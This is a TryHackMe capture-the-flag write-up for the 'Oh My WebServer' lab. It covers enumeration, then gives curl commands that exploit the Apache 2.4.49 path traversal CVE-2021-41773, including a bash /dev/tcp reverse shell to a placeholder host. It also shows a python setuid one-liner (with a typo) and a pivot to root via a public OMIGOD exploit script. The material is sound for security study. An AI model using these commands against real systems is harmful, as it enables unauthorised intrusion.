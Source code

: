 ```yaml
---
title: THM - Oh My WebServer
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: https://raw.githubusercontent.com/guialvesf/guialvesf.github.io/main/img/thm/ohmywebserver/ohmywebserver.png
alt: "tryhackme"
---
```



<p align="center" width="100%">
    <img src="/img/thm/ohmywebserver/banner.png"> 
</p>
<hr>

# Recon
Let's start with a classic Nmap scan against the machine to see what services are running!

* -sC - Default Nmap scripts
* -sV - Services version
* -oA - Save output to a file
* -v  - Verbose mode

(This screenshot has another command because I typed it just for pic)

![nmap](/img/thm/ohmywebserver/nmap.png)

Ok, we have two open ports, 80 port is running `Apache 2.4.49` and 22 port running a SSH. Can we access this webpage to see what we have.

![consult](/img/thm/ohmywebserver/consult.png)

Cool, just a web application. I didn't find anything interesting, so let's start a directory enumeration.

`ffuf -u http://10.10.148.87/FUZZ -w /path/to/wordlist -t 90 -c`

* -u - Target URL
* -w - Wordlist file path
* -t - Number of concurrent threads
* -c - Colorize output

![ffuf](/img/thm/ohmywebserver/ffuf.png)

Here we find two somewhat interesting directories: `assets` and `cgi-bin`

![assets](/img/thm/ohmywebserver/assets.png)

Ok, I didn't find anything here too.

![cgi-bin](/img/thm/ohmywebserver/cgi-bin.png)

## Reverse shell

Alright, we have a cgi-bin, and coming back to Apache version I found something a lot interesting. For that apache version we have a `CVE-2021-41773`. Can we confirm it with a cURL command.
Just sending a request with a linux command can we check it.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'Content-Type: text/plain; echo; whoami && id'`

![curl-first-command](/img/thm/ohmywebserver/curl_first_command.png)

BOOMM! We have a path traversal, and we are able to execute commands, so let's get a reverse shell with this. To do this we'll need two terminals, one for send request and another to wait a connection.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "Content-Type: text/plain; echo; bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT/ <&1'"`

![reverse-shell](/img/thm/ohmywebserver/reverse_shell.png)

## User

Ok, we have a reverse shell and access to the machine, but there's no home user here

![no-user](/img/thm/ohmywebserver/no-user.png)

It took me a while to enumerate this machine, so I decided to use linPEAS. So by uploading the script and running I found something interesting

![linpeas](/img/thm/ohmywebserver/linpeas.png)

We can set UID with python command.

`python3 -c 'import so; os.setuid(0); os.system("/bin/bash")'`

![setuid](/img/thm/ohmywebserver/user.png)

## Root

After enumerating, I took a another look to linPEAS output and found something else: we have another IP address. So we can enumerate this IP with Nmap. Can you download nmap binary from [here](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64). Just upload as linPEAS.

`nmap -v 172.17.0.0-5`

This will scan IP from 0 to 5, and checking the output we can note that 172.17.0.1 host is up. 

![nmap_ntw](/img/thm/ohmywebserver/nmap_ntw.png)

Enumerating it better we find another two open ports: `5985` and `5986`.

![nmap_nports](/img/thm/ohmywebserver/nmap_nports.png) 

Ok, we have another CVE: `CVE-2021-38647`. There's a script to exploit it, you can find it [here](https://github.com/AlteredSecurity/CVE-2021-38647). We'll use the python script to escalete our privileges.

![omigod](/img/thm/ohmywebserver/omigod.png)

Just run it by passing the command as an argument.

![root](/img/thm/ohmywebserver/root.png)
